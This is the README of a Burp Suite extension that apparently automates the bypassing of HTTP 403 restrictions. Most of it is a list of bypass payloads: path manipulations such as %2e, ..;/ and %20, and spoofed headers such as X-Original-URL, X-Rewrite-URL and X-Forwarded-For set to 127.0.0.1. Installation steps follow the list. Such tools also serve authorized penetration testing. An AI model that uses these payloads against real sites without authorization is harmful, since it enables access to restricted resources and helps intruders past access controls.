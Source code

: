 # 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

**This forked repository adds new payloads.** 
*Original*: https://github.com/sting8k/BurpSuite_403Bypasser

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2anything -H "X-Original-URL: $2"
$1 -H "X-Original-URL: $1" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1"
$1 -H "X-Rewrite-URL: $1"
$1 -H "X-Rewrite-URL: $2"
$1/$2 -H "Referer: /$2"
$1/$2 -H "X-Originating-IP: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1:80"
$1/$2 -H "X-Forwarded-For: 127.0.0.1:443"
$1/$2 -H "X-Forwarded-For: http://127.0.0.1"
$1/$2 -H "X-Remote-IP: 127.0.0.1"
$1/$2 -H "X-Client-IP: 127.0.0.1"
$1/$2 -H "X-Host: 127.0.0.1"
$1/$2 -H "X-Forwarded-Host: 127.0.0.1"
$1/$2%20/
$1/%20$2%20/
$1/$2?
$1/$2???
$1/$2//
$1/$2/
$1/$2/.random
$1/$2.json
$1/$2%23
$1/$2%26
$1.//$2
$1/$2..;/
$1/$2%
$1/$2.%2e/
```

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Finish`

## Screenshot
<img src="ScreenShot.png" width="450"/>
